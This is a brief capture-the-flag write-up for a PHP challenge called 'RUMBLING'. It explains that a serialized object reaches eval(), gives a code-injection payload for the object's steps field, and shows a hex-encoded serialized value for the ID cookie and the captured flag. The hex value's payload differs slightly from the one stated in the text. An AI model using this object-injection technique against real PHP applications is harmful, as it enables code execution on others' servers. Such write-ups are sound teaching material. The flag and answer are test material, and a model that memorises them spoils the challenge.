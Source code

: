 # RUMBLING

## Write-up

by reading the source code : 
we find that when the Rumbling object is being serialized , it executes a php expression using eval() 
let's attempt php code injection !

we shall create a rumbling object with the following value as steps attribute : `1;global $flag ; echo $flag;1`
then we serialize it and encode it 

which gives us this value to use in the ID cookie : 4f3a383a2252756d626c696e67223a323a7b733a343a226e616d65223b733a343a2273616d69223b733a353a227374657073223b733a33323a22343b676c6f62616c2024666c61673b6563686f2024666c61673b6563686f2032223b7d

## Flag

`nexus{1_h4v3_Th3_fr33d0m_t0_c0nt1nu3_m0vinG_forward}`
